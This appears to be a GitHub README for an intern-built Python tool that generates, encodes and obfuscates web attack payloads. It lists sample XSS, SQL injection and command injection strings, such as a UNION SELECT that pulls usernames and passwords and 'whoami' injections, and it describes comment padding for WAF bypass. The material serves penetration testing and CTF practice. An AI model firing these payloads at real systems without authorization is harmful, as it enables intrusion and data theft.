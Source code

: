 # 🚀 PayloadGen – Web Payload Generator Tool

A modular offensive security tool to generate, encode, obfuscate, and export web attack payloads like **XSS**, **SQL Injection**, and **Command Injection**. Perfect for security researchers, penetration testers, and CTF enthusiasts.

---

## ✨ Features

- 🔍 Payload generation for:
  - Cross-Site Scripting (XSS)
  - SQL Injection (SQLi)
  - Command Injection (CMDi)
- 🔐 Encode payloads:
  - URL encoding
  - Base64
  - Hexadecimal
  - Unicode escape
- 🛡️ Obfuscate payloads using comment injection (`/**/`)
- 📋 Copy payloads directly to clipboard (`--clip`)
- 📄 Export payloads to structured `output.json`
- 🧩 Fully modular and extensible codebase
- 🐧 Works on Kali Linux, Parrot OS, and any Linux with Python 3

---

## 📁 Folder Structure

\`\`\`
payloadgen/
├── modules/
│   ├── xss.py                # XSS payloads
│   ├── sqli.py               # SQLi payloads
│   ├── command_injection.py  # CMDi payloads
│   └── encoder.py            # Encoding module
│
├── utils/
│   └── obfuscator.py         # Obfuscation module
│
├── samples/
│   ├── xss_payloads.json
│   ├── sqli_payloads.json
│   └── cmd_payloads.json
│
├── main.py                   # CLI entrypoint
├── requirements.txt
├── README.md
└── screenshots/demo.png
\`\`\`

---

## 🔧 Usage Examples

\`\`\`bash
# Basic payload generation
python3 main.py --xss
python3 main.py --sqli
python3 main.py --cmd

# Encode payloads
python3 main.py --xss --encode=url
python3 main.py --sqli --encode=base64
python3 main.py --cmd --encode=unicode

# Obfuscate payloads
python3 main.py --xss --obfuscate

# Encode + Obfuscate + Export
python3 main.py --cmd --encode=hex --obfuscate --export

# Copy first payload to clipboard
python3 main.py --xss --clip
\`\`\`

---

## 🐍 Requirements

- Python 3.7+
- Install dependencies safely in a virtual environment:

\`\`\`bash
python3 -m venv venv
source venv/bin/activate
pip install -r requirements.txt
\`\`\`

Content of \`requirements.txt\`:
\`\`\`
pyperclip
\`\`\`

---

## 🧪 Payload Samples

### XSS Payloads:
- \`<script>alert(1)</script>\`
- \`<img src=x onerror=alert(1)>\`
- \`javascript:alert(1)\`
- \`<svg/onload=alert(1)>\`
- \`<iframe srcdoc="<script>alert(1)</script>">\`
- \`<script%00>alert(1)</script>\`

### SQL Injection Payloads:
- \`' UNION SELECT null, username, password FROM users--\`
- \`' OR 1=1 ORDER BY 100--\`
- \`' AND SLEEP(5)--\`
- \`'/**/UNION/**/SELECT/**/NULL--\`
- \`' uNIoN SeLEct null--\`

### Command Injection Payloads:
- \`;ls\`
- \`&& whoami\`
- \`\` \`id\` \`\`
- \`& whoami\` (Windows)
- \`| net user\` (Windows)

---

## 💡 Encoding Types

| Method     | Result Example                        |
|------------|----------------------------------------|
| \`url\`      | %3Cscript%3Ealert(1)%3C%2Fscript%3E     |
| \`base64\`   | PHNjcmlwdD5hbGVydCgxKTwvc2NyaXB0Pg==    |
| \`hex\`      | 0x3c0x730x630x720x690x700x740x3e...     |
| \`unicode\`  | \\u003c\\u0073\\u0063\\u0072...         |

---

## 🔐 Obfuscation Support

Obfuscates spaces using inline comments (\`/**/\`) for WAF bypass:

\`\`\`bash
python3 main.py --sqli --obfuscate
\`\`\`

Result:
\`\`\`
SELECT/**//*/*/**/FROM/**/users
\`\`\`

---

## 📂 Output Formats

| Output Type  | Description                                |
|--------------|--------------------------------------------|
| Terminal     | Default payload listing                    |
| Clipboard    | First payload copied with \`--clip\`         |
| File         | JSON output saved with \`--export\`          |
| Screenshot   | (optional) for GUI demo or reports         |

Example output file:
\`\`\`json
[
    {
        "type": "Reflected",
        "payload": "%3Cscript%3Ealert(1)%3C%2Fscript%3E"
    }
]
\`\`\`

---

## 📸 Screenshots

Use `xfce4-screenshooter` or `spectacle` to capture CLI:

\`\`\`bash
xfce4-screenshooter -f -s screenshots/
\`\`\`

Screenshot Example:

![demo](screenshots/demo.png)

---

## 👨‍💻 Author

- **Ubaidullah Qureshi**
- Intern at **ITSOLERA PVT LTD**
- Task: **Offensive Security Payload Generator Tool**
- Deadline: **27th June 2025**

---

## ✅ Status

This tool is **complete** and ready for:

- 🛡️ Offensive testing labs
- 💻 TryHackMe / HackTheBox
- 🧰 Portfolio & Job Applications
- 📤 GitHub / Internship Submission

